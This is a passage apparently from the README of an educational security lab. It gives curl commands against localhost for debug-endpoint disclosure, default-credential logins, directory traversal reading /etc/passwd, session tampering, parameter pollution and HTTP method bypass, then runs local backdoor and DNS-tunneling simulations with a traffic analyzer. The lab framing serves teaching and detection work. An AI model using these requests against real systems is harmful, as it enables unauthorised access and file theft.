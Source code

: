 ### Configuration Exploitation
```bash
# Debug mode information disclosure
curl "http://localhost:5000/debug" -v
curl "http://localhost:5000/config" -v

# Default credentials testing
curl -X POST "http://localhost:8080/login" \
  -d "username=admin&password=admin" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Directory traversal
curl "http://localhost:5000/file?name=../../../etc/passwd"
curl "http://localhost:5000/download?file=../../../../etc/hosts"
```

### Authentication Bypass
```bash
# Session manipulation
curl -X GET "http://localhost:5000/admin" \
  -H "Cookie: session=modified_session_value"

# Parameter pollution
curl -X POST "http://localhost:5000/login" \
  -d "username=user&username=admin&password=test" \
  -H "Content-Type: application/x-www-form-urlencoded"

# HTTP method bypass
curl -X PUT "http://localhost:5000/admin/users"
curl -X DELETE "http://localhost:5000/admin/users/1"
```

## 🔍 Post-Exploitation Analysis

### Persistence Simulation
```bash
# Backdoor communication patterns
python samples/backdoor-apps/backdoor_app.py &
python src/analyzer/network_cli.py --monitor-connections --duration 120 --educational

# Persistence mechanism analysis
python samples/network-scenarios/backdoor_simulation.py 90 &
python src/analyzer/network_cli.py --capture-traffic --duration 100 --educational
```

### Data Exfiltration Patterns
```bash
# Monitor exfiltration traffic
python samples/network-scenarios/backdoor_simulation.py 120 &
python src/analyzer/network_cli.py --dns-analysis --duration 130 --educational

# DNS tunneling detection
python samples/network-scenarios/dns_threat_scenarios.py 60 &
python src/analyzer/network_cli.py --dns-analysis --duration 70 --educational
```
